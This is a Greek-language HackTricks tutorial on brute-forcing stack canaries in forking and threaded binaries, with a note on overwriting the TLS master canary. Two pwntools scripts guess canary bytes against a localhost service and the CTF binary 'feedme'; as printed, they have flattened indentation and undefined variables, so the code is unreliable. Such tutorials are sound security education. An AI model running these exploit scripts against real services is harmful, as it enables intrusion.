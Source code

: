 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Αν αντιμετωπίζετε ένα δυαδικό που προστατεύεται από ένα canary και το PIE (Position Independent Executable) πιθανότατα χρειάζεστε έναν τρόπο για να τα παρακάμψετε.**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
Σημειώστε ότι το **`checksec`** ενδέχεται να μην εντοπίσει ότι ένα δυαδικό προστατεύεται από ένα canary εάν αυτό ήταν στατικά μεταγλωττισμένο και δεν είναι ικανό να αναγνωρίσει τη λειτουργία.\
Ωστόσο, μπορείτε να παρατηρήσετε χειροκίνητα αυτό εάν διαπιστώσετε ότι μια τιμή αποθηκεύεται στη στοίβα στην αρχή μιας κλήσης συνάρτησης και αυτή η τιμή ελέγχεται πριν από την έξοδο.
{% endhint %}

## Βίαιη δύναμη Canary

Ο καλύτερος τρόπος για να παρακάμψετε ένα απλό canary είναι εάν το δυαδικό είναι ένα πρόγραμμα **που δημιουργεί παιδικές διεργασίες κάθε φορά που καθιερώνετε μια νέα σύνδεση** μαζί του (υπηρεσία δικτύου), επειδή κάθε φορά που συνδέεστε σε αυτό **θα χρησιμοποιηθεί το ίδιο canary**.

Στη συνέχεια, ο καλύτερος τρόπος για να παρακάμψετε το canary είναι απλώς να το **επιτεθείτε βίαια χαρακτήρα προς χαρακτήρα**, και μπορείτε να καταλάβετε εάν το μάντεψε canary byte ήταν σωστό ελέγχοντας εάν το πρόγραμμα έχει καταρρεύσει ή συνεχίζει την κανονική του ροή. Σε αυτό το παράδειγμα η συνάρτηση **επιτίθεται βίαια σε ένα canary 8 Bytes (x64)** και διακρίνει μεταξύ ενός σωστού μαντεμένου byte και ενός κακού byte απλώς **ελέγχοντας** αν ένα **αποτέλεσμα** επιστρέφεται από τον εξυπηρετητή (μια άλλη μέθοδος σε **άλλη κατάσταση** θα μπορούσε να είναι η χρήση ενός **try/except**):

### Παράδειγμα 1

Αυτό το παράδειγμα υλοποιείται για 64bit αλλά θα μπορούσε εύκολα να υλοποιηθεί για 32 bit.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Παράδειγμα 2

Αυτό υλοποιείται για 32 bits, αλλά μπορεί εύκολα να αλλάξει σε 64 bits.\
Επίσης, σημειώστε ότι για αυτό το παράδειγμα το πρόγραμμα περιμένει πρώτα ένα byte για να υποδείξει το μέγεθος της εισόδου και του φορτίου.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Νήματα

Τα νήματα του ίδιου διεργασίας θα **μοιράζονται το ίδιο διακριτικό canary**, επομένως θα είναι δυνατό να **δοκιμαστεί βίαια** ένα canary αν το δυαδικό αρχείο δημιουργεί ένα νέο νήμα κάθε φορά που συμβαίνει μια επίθεση.

Επιπλέον, μια **υπερχείλιση buffer σε μια συνάρτηση με νήματα** που προστατεύεται με canary θα μπορούσε να χρησιμοποιηθεί για να **τροποποιήσει τον κύριο canary που αποθηκεύεται στο TLS**. Αυτό συμβαίνει επειδή είναι πιθανό να φτάσει στη θέση μνήμης όπου αποθηκεύεται το TLS (και, συνεπώς, το canary) μέσω μιας **υπερχείλισης buffer στη στοίβα** ενός νήματος.\
Ως αποτέλεσμα, η αντιμετώπιση είναι άχρηστη επειδή ο έλεγχος χρησιμοποιείται με δύο canaries που είναι τα ίδια (αν και τροποποιημένα).\
Αυτή η επίθεση πραγματοποιείται στο writeup: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

Ελέγξτε επίσης την παρουσίαση του [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015) η οποία αναφέρει ότι συνήθως το **TLS** αποθηκεύεται από το **`mmap`** και όταν δημιουργείται μια **στοίβα** ενός **νήματος** δημιουργείται επίσης από το `mmap` σύμφωνα με αυτό, το οποίο μπορεί να επιτρέψει την υπερχείλιση όπως φαίνεται στο προηγούμενο writeup.

## Άλλα παραδείγματα & αναφορές

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bits, no PIE, nx, BF canary, εγγραφή σε κάποια μνήμη ενός ROP για να καλέσει το `execve` και να μεταβεί εκεί.
